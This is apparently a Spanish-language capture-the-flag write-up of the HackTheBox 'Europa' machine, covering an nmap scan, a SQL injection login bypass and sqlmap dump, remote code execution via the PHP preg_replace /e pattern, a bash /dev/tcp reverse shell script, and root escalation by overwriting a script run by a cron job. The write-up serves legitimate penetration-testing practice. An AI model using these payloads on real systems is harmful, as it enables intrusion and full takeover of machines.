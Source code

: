 ```yaml
---
title: HackTheBox - Europa
author: Watskip
date: 2020-10-26 19:55:00 -0400
categories: [Nix]
tags: [SQLi, Regex, Misconfiguration, HTB]
pin: false
---
```


![europa](https://user-images.githubusercontent.com/25357279/97245246-01290000-17d1-11eb-9732-c56d6776c61d.png)

Europa nos muestra un bypass simple de un login, abusamos un pattern de regex en php para obtener RCE y luego empleamos un cronjob para escalar nuestros privilegios.
Nuestro escaneo inicial nos muestra 3 puertos: 22, 80, 443.

```jsx
# Nmap 7.80 scan initiated Sat Oct 17 10:42:59 2020 as: nmap -sC -sV 10.10.10.22
Nmap scan report for 10.10.10.22
Host is up, received echo-reply ttl 63 (1.6s latency).
Scanned at 2020-10-17 10:42:59 -04 for 24s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCh1/OK73CDKnJigk6uMUzDLSQhCHSpt9xL+SJrizWdCa7edGviU3NU/8So5xOOgzV1k8u3qHsudNnTSiH8Ek9d2c48B3xYHZn5+nPDv22fZ82LIRKd5qSLhthk91bL3uV+/CURpOZshvo0bVPS48UQaw5r7pWTE0goB+qyG2csY7hr3+9C7Sx4L/Vx7MOFuGAoy/EnpHG10f12ZJ6IVrX8mMEyZGb3Bh7crRN8tQ2RAvnJxyj+1ZeDo7Vr2F75r//dEL2iQ4S2Iuz8BocjQMREyIguIOSOJxjc/L52TpioRHnNK/aEArT02uakB4jRyd5LTSsijjitgUlAk/3H2cYd
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEqrLpdz7aDIUDy3bslqFlbGCrL4Q6tQmesbTP73F/Rv0GO6bb3zHETnZwVB5AKes/pQdRrbDlQCtR2v2WsTXsw=
|   256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDE2hVC32u7eNINSvsmSQkbMlUkJ7s0oiG/bxPhwZb/b
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
| SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
| -----BEGIN CERTIFICATE-----
| MIIFSDCCA7CgAwIBAgIJAPGhMP4FtiTCMA0GCSqGSIb3DQEBCwUAMIGUMQswCQYD
| VQQGEwJHUjEPMA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNV
| BAoMD0V1cm9wYUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9w
| YWNvcnAuaHRiMSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjAe
| Fw0xNzA0MTkwOTA2MjJaFw0yNzA0MTcwOTA2MjJaMIGUMQswCQYDVQQGEwJHUjEP
| MA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNVBAoMD0V1cm9w
| YUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9wYWNvcnAuaHRi
| MSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjCCAaIwDQYJKoZI
| hvcNAQEBBQADggGPADCCAYoCggGBAKzVzRrrM1MSWnf8zniIPKt0SXGDB2msYUm3
| rQJ3j31wPfn9xJOWeIpBCIbtXkRqO3XGrLjG/M0Slp3sa/lQ+1dk8aupaudrJvCm
| ITzLnGvtzrtyDlPkozH2wqM+tJx351gKhfrdF81TItS8oe3yskPW3MvEDbi5lPQM
| OVZk4dhFT4l94E1zrRoapU9fqNL66BdEzeEdS6XwntdARBrEyEoCp7nFIGMBKSIn
| JzxIh2VS98ybxkw58QcDEG9ClDH49nglkKmQfAevGKil8f1f9NYRwW3YOCvuzAA7
| Osg+pLEp4de6MEf408+AOhxl4CvgZKYWvmu7b+OSrFDN8cHFy/bQ2fvrjXNazjA0
| 9FIj4wivJ7JgJOCdXEianNZkvLzqPXGS/dVUrFF5fzyG0z5xOTvABZp86fNa3yNu
| zLb04h3j04SvfJ+T3CzkZDWVsFvOYdKsce600S/iaUoqE7XQH6QPB54ba5ailVtH
| npmV1uVqVxT7tXAs0ztIDpqzJ0XAnwIDAQABo4GaMIGXMB0GA1UdDgQWBBSdw09g
| /iRsaKt8R137PRpTAfuTgTA6BgNVHREEMzAxghJ3d3cuZXVyb3BhY29ycC5odGKC
| G2FkbWluLXBvcnRhbC5ldXJvcGFjb3JwLmh0YjAfBgNVHSMEGDAWgBSdw09g/iRs
| aKt8R137PRpTAfuTgTAMBgNVHRMEBTADAQH/MAsGA1UdDwQEAwIFoDANBgkqhkiG
| 9w0BAQsFAAOCAYEAbv2ccFD/d2ovr3dkIqL1m2Qo3AgMObUaBczB37KDsB0w6lzf
| EOM/aBVth8LarblnVUJE0tk8Io7VBcTP9hF2nt3BuSM0mF6yMY3WRY+23JJpNxSO
| nOrZ1xLB7a6XTwSTWD0kg2bRbjSbiEWaUzY/RrqtCF1NThgyXo0wuMWPpPICmbd/
| 5ID8iOH+rmR3nR4fP80J38SUmvrsXAmifbsbKaKHspNMclQ2Idfiyv53xAoFrJzV
| cuxHKyBxYn8A5DPRIhbesLF2NAy0d4aziNeVgGQnSA9cV9RhN454nuzwqKb33BlF
| L8cpG59w3xR8RuyTyZql4uBPZtogzh0pc0PyxX2E2O5nbn85aqYDkVW7aUkeiU69
| LAiIp8s6Z+Rhe2rN4RAudtMcWaMTwjBOb1k1UrJ+0T7Av3O5nJk5kd/Ee5LUD2jX
| wE9Q72WLg1HP/PSSJPsNASSAW4OWSYG1CqLIhfRk5wJtfi6oR9VO+CpajWvqB0Ej
| PTXIrDgdEK1VKan9
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 17 10:43:23 2020 -- 1 IP address (1 host up) scanned in 24.84 seconds
```

El resultado nos muestra 2 entradas interesantes `www.europacorp.htb` y `admin-portal.europacorp.htb`. Procedemos a añadir ambas  en `/etc/hosts`

Cuando intentamos acceder a estos hosts mediante el puerto 80 nos tocamos con la página por defecto de apache. Entonces intentamos acceder al puerto 443 y nos encontramos con un login al momento de acceder el subdominio de `admin-portal`

![login](https://user-images.githubusercontent.com/25357279/97241900-cb801900-17c8-11eb-951b-d88bdceffe8b.png)

## Obteniendo RCE

Podemos probar rápidamente si hay SQLi con varios payloads y combinaciones de credenciales. Como nos pide un correo en vez de simplemente un usuario, por eso intentamos darle con `admin@europacorp.htb`  y vemos que comentando el resto del query colocando lo siguiente como email`admin@europacorp.htb' #`   podemos hacer bypass del login

También podemos intentar con SQLmap para confirmar posibles casos de inyección (cosa que ya hemos hecho manualmente) y dumpear el resto de la base de datos. Esto lo hacemos con el siguiente comando:

```bash
sqlmap -u [https://admin-portal.europacorp.htb/login.php](https://admin-portal.europacorp.htb/login.php) --form --batch --dump
```

Luego de correr sqlmap para asistirnos en la inyección obtenemos la siguiente información de la base de datos.
![creds](https://user-images.githubusercontent.com/25357279/97245113-b3ac9300-17d0-11eb-835d-8147f9e55609.png)

Una vez obtenemos los hashes observamos que son idénticos y que contienen 32 caracteres de longitud. Procedemos a verificarlos en [hashes.com](http://hashes.com) para confirmar si obtenemos su resultado en texto plano. Y obtenemos un resultado válido.

![hashes](https://user-images.githubusercontent.com/25357279/97241946-eb174180-17c8-11eb-9340-9f4e3f4f8e47.png)

Estas credenciales quizá nos sirvan para ser usadas una vez tengamos ejecución de comandos de manera arbitratia en la máquina, pero por ahora procedemos a examinar el site.

![dashboard](https://user-images.githubusercontent.com/25357279/97245023-7a742300-17d0-11eb-9245-5730f5040fb4.png)

Si vamos a la opción de Tools nos encontramos con un generador de configuraciones de OpenVPN

![Burp](https://user-images.githubusercontent.com/25357279/97245319-2cabea80-17d1-11eb-8976-c52915951447.png)

En primera instancia pensé en obtener una reverse shell abusando la funcionalidad de OpenVPN mediante el parámetro up. Debajo está un artículo explicando cómo esto puede ser ejecutado.

[Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

Pero no funcionó con el propósito que esperaba. 

Luego de esto empecé a examinar los requests que se mandaban al site y a analizar la funcionalidad del generador. Vemos que remplaza lo que sea que le pasemos como parametro de IP dentro de la configuración y revisando uno de los requests que se han capturado vemos el parametro "pattern". 

Luego de googlear (literalmente) "php pattern exploit", encontramos [este site](http://www.madirish.net/402) que nos brinda la idea de usar  `/^(.*)/e` como pattern y  luego pasarle el string de `"system('CMD')"` . En este caso colocamos nuestro payload en el archivo `[reverse.sh](http://reverse.sh)` y lo servimos mediante el módulo de http.server en python `python3 -m http.server 80`

```bash
$ cat reverse.sh 
/bin/bash -c "/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1"
```

Interceptamos el request y añadimos nuestro payload para obtener el script `[reverse.sh](http://reverse.sh)` y ejecutarlo, recordando darle codificación de URL

![Burp](https://user-images.githubusercontent.com/25357279/97244667-ae9b1400-17cf-11eb-9fc3-bf2837fe02ed.png)


Revisamos nuestro listener y confirmamos que tenemos una reverse shell!

Procedemos a mejorarla solamente con `python3 -c 'import pty;pty.spawn("/bin/bash")'`
ya que la hemos capturado con `rlwrap`. A pesar de que somos www-data podemos leer la flag de user. Esta se encuentra en /home/john/user.txt.

## Consigamos ser root

Examinando los directorios del usuario www-data encontramos uno particular que nos llama la atención y a su vez un archivo muy particular.

![clearlogs](https://user-images.githubusercontent.com/25357279/97244665-aba02380-17cf-11eb-89f6-2d6c428ae82c.png)

Aquí vemos el contenido del archivo `clearlogs`

```bash
$ cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Asumiendo por el nombre del directorio (cronjobs), hay una tarea programada a ejecutarse para limpiar los logs del site, pero a su vez este ejecuta un archivo llamado `[logcleared.sh](http://logcleared.sh)`.  Tenemos permiso de escritura en la ruta en el cual se encuentra el archivo por lo cual procedemos a colocar el siguiente payload para confirmar si podemos obtener una reverse shell como root .

Podemos usar el mismo `[reverse.sh](http://reverse.sh)` para obtener la shell como root. Solo tenemos que moverlo a la ruta y renombrarlo

```bash
$ mv reverse.sh logcleared.sh
```

Luego de unos minutos, revisamos nuestro listener y....

![pwned](https://user-images.githubusercontent.com/25357279/97244641-9c20da80-17cf-11eb-8138-af7366338852.png)

Y con esto.... Somos root!